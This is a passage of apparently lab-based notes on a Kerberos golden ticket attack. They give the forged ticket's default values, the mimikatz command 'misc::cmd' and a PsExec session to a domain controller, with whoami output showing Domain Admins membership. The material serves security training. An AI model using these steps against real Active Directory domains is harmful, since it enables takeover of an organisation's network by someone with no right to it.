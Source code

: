 **Default Golden Ticket Values:**
- **User ID:** 500 (built-in administrator RID)
- **Groups ID:** Most privileged AD groups (513, 512, 520, 518, 519)
- **Domain Admins:** Group 512 included by default
- **Enterprise Admins:** Group 519 for forest-wide access

### Golden Ticket Verification and Usage

**Launch Command Prompt with Golden Ticket:**
```mimikatz
# Launch new command prompt with injected golden ticket
misc::cmd
```

**Successful Domain Controller Access:**
```cmd
# PsExec with golden ticket (using hostname for Kerberos)
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Windows\system32>ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:
   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5cd4:aacd:705a:3289%14
   IPv4 Address. . . . . . . . . . . : 192.168.50.70
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32>whoami
corp\jen
```

**Group Membership Verification:**
```cmd
C:\Windows\system32>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes    
=========================================== ================ ============================================ ===============================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                      Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
CORP\Domain Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-512 Mandatory group, Enabled by default, Enabled group
```